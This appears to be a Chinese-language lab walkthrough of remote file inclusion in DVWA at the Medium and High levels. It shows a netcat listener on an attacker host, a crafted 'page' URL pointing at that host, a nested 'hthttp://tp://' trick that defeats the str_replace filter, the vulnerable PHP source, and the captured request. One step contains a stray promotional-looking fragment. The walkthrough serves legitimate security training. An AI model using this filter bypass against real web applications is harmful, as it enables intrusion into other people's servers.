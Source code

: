 * dvwa测试 Medium 级别下的源代码
1. kali 本机监听 80 端口
``` 
root@kali:~# nc -nvlp 80
listening on [any] 80 ...
```

2. kali 浏览器 随便指定一个URL，IP地址为kali 本机
``` 
10.10.10.132/dvwa/vulnerabilities/fi/?page=http://10.10.10.131/a.php
```


3. nc 接收到请求
   
4. 查看 dvwa Medium 级别下的源代码,发现被过滤
``` 
 <?php
    $file = $_GET['page']; // The page we wish to display 
    // Bad input validation
    $file = str_replace("http://", "", $file);
    $file = str_replace("https://", "", $file);        
?>

```

5. 编码中是将 http:// 过滤为空字符（即删除）
``` 
可以利用此机制，使用两次 http:// ，将第二次插入到 http:// 中间
将 http:// 换位 htthttp://p://

```

6. kaili.org快来领取随便指定 URL，IP地址为kali 本机
``` 
http://10.10.10.132/dvwa/vulnerabilities/fi/?page=hthttp://tp://10.10.10.131/

```

7. nc 接收到请求
``` 
root@kali:~# nc -nvlp 80
listening on [any] 80 ...
connect to [10.10.10.131] from (UNKNOWN) [10.10.10.132] 55014
GET / HTTP/1.0
Host: 10.10.10.131

```

* dvwa测试 High 级别下的源代码
1. 正确的代码 URL为
> 10.10.10.132/dvwa/vulnerabilities/fi/?page=include.php      

2. 查看 dvwa High 级别下的源代码
``` 
 <?php   
    $file = $_GET['page']; //The page we wish to display 
    // Only allow include.php
    if ( $file != "include.php" ) {
        echo "ERROR: File not found!";
        exit;
    }  
?> 

```
